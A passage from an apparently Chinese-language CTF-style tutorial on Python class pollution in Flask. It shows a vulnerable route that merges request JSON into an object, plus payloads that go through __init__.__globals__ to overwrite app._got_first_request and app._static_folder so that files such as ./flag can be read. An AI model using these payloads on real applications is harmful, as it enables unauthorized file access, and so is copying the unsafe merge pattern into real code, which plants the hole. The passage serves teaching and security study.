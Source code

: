 ```plain
    global flag
    setattr(app, "special", "U_Polluted_It")
    return flag

app.run(host="0.0.0.0")
```

```plain
payload={
    "__init__":{
        "__globals__":{
            "app":{
                "_got_first_request":False
            }
        }
    }
}
```

### \_static\_url\_path:

当 python 指定了 static 静态目录以后，我们再进行访问就会定向到 static 文件夹下面的对应文件而不会存在目录穿梭的漏洞，但是如果我们想要访问其他文件下面的敏感信息，我们就需要污染这个静态目录，让他自动帮我们实现定向

```plain
#static/index.html

<html>
<h1>hello</h1>
<body>    
</body>
</html>
```

```plain
@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "flag in ./flag but heres only static/index.html"
```

```plain
payload={
    "__init__":{
        "__globals__":{
            "app":{
                "_static_folder":"./"
            }
        }
    }
}
```

### os.path.pardir:
